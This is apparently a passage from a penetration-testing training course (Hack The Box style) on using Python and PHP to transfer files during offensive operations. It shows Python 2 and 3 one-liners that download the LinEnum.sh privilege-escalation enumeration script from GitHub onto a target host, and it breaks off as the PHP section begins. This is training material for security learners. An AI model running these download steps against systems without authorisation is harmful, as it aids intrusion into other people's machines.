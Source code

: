 
___

It's common to find different programming languages installed on the machines we are targetting. Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around [700 programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages), and we can create code in any programing language, to download, upload or execute instructions to the OS. This section will provide a few examples using common programming languages.

___

## Python

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exists. `Python` can run one-liners from an operating system command line using the option `-c`. Let's see some examples:

#### Python 2 - Download

Transferring Files with Code

```shell
6165@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

Transferring Files with Code

```shell
6165@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

___

## PHP

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file\_get\_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file\_put\_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.
